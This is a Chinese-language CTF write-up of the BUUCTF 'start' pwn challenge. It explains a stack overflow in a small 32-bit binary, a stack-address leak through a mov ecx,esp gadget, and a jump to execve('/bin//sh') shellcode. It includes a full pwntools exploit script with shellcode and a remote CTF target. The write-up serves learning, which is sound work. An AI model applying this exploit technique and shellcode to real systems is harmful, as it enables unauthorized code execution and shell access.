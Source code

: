 ### ECX 寄存器泄露栈初始地址

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dd4b4588c538a9b5c2e7ee.png)

没法反编译为伪代码

![](https://pic1.imgdb.cn/item/67dd4b6988c538a9b5c2e7f6.png)

一开始调用 write 函数输出了 let’s start the ctf

4 是write函数的调用号，之后的调用号是 3，调用了 read 函数

我们知道 dl 这个寄存器是控制输入字符的多少的，也就是所我们可以输入 0x3c 个字符

```c
write(1，buf，0x14)
read(0，buf，0x3C)
```

通过最后的 add esp,14h 我们可以知道 esp 距离 ret 的地址 0x14 个字节（内平栈）

![](https://pic1.imgdb.cn/item/67dd504288c538a9b5c2e8c3.png)

也就是我们输入的参数 buf 的大小只有 0x14，但是我们读入了 0x3c，存在溢出漏洞

`0x8048087` 之前栈上压入了 7 个数据，之后 read()、write() 函数调用完后 esp 始终没有变化，直到出现了 `add esp,0x14`

这使得 esp 此时指向第二个压入的数据，也就是 `offset _exit` 的地址

![](https://pic1.imgdb.cn/item/67dd55f688c538a9b5c2edbf.png)

其上面就是第一次压入的数据（栈的地址，就是即将被泄露的栈的地址）

![](https://pic1.imgdb.cn/item/67dd552888c538a9b5c2ecaa.png)

如上，栈第二个地方存的就是第一个被压入的数据，也就是其下面的栈的地址

由于使用的内平栈，没有 ebp，覆盖完 buf 后就是 ret，其实看上方的汇编就知道了

这句 payload 将程序执行流转到了去执行 write 函数

所以当 paylaod 发送时，返回 `0x08048087: mov ecx, esp ; addr` 到这里执行

使 ecx 指向栈顶，此时栈顶就是第一个被压入的数据，存的正是栈的初始地址，可以被泄露

```python
mov_ecx_esp = 0x08048087

payload = b'a' * 0x14 + mov_ecx_esp

p.sendafter(':', payload)
```

![](https://pic1.imgdb.cn/item/67dd521388c538a9b5c2e905.png)

因为第二次执行完 read 之后执行了 `add esp,14h`

此时 esp 指向的就是即将执行的 shellcode 的地址，而 shellcode 的地址正是泄露的 `stack_addr + 0x14`

```python
shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()
```

完整 payload

```python
from pwn import *

p = process('./start')
#p = remote('node5.buuoj.cn',29955)

payload = b'A' * 0x14 + p32(0x8048087)

p.sendafter("Let's start the CTF:",payload)

stack_addr = u32(p.recv(4))

print(hex(stack_addr))
gdb.attach(p)

shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()

```

